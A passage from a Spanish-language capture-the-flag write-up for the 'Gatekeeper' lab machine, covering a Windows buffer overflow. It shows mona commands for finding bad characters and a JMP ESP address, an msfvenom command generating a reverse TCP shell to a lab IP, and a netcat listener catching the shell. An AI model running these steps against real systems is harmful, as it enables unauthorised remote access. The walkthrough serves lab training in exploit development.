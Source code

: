El siguiente paso es buscar los badchars del servicio. Iniciamos creando el bytearray base en mona contemplando el badchar \x00 por defecto:

    !mona bytearray -b "\x00"

Colocamos la cadena de bytes en nuestro script, contemplando igualmente el \x00 por defecto y lo ejecutamos. Hacemos el comparativo de ambos con ayuda de mona para detectar los badchars:

    !mona compare -f c:\mona\gatekeeper\bytearray.bin -a <DIRECCION DEL ESP>

![15]

Como podemos observar, en la primera pasada logramos obtener dos badchars: el default \x00 y el \x0a. Para continuar, volvemos a ejecutar los pasos de crear el bytearray y enviarlo en el payload evitando este nuevo badchar. Ya en esta segunda pasada, obtenemos el **Unmodified**.

![16]

Ahora, buscamos la dirección de la instrucción JMP ESP en el binario o su biblioteca que tenga el ASLR y SEH deshabilitados y que no contengan el badchar encontrado.

    !mona jmp -r esp -cpb "\x00\x0a"

![17]

Copiamos la dirección encontrada en nuestro script, añadimos los NOP's y creamos nuestro payload con ayuda de msfvenom:

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.103.114 LPORT=443 EXITFUNC=thread -b "\x00\x0a" -f c

Creamos una reverse shell que se conecte a nuestra máquina sin que empleé el badchar encontrado. Lo agregamos a la variable payload del *exploit.py* junto con los demás datos para el BoF.

![18]

Ya con todo listo, lo ejecutamos con una consola aparte en escucha con ayuda de netcat. Vemos cómo inmediatamente obtenemos la cmd en el sistema, habiendola comprometido exitosamente.

![19]

# Comprometiendo el sistema original
Ya que vimos que el script funciona, comprometemos el sistema original solo cambiando la IP destino:

![20]

Al acceder al sistema, buscamos la flag de usuario, encontrándola en el directorio Desktop del usuario **natbat**.

![21]

# Escalada de privilegios
Listamos primero los privilegios con los que contamos en el sistema, sin embargo, no encontramos nada de lo que nos podamos aprovechar.
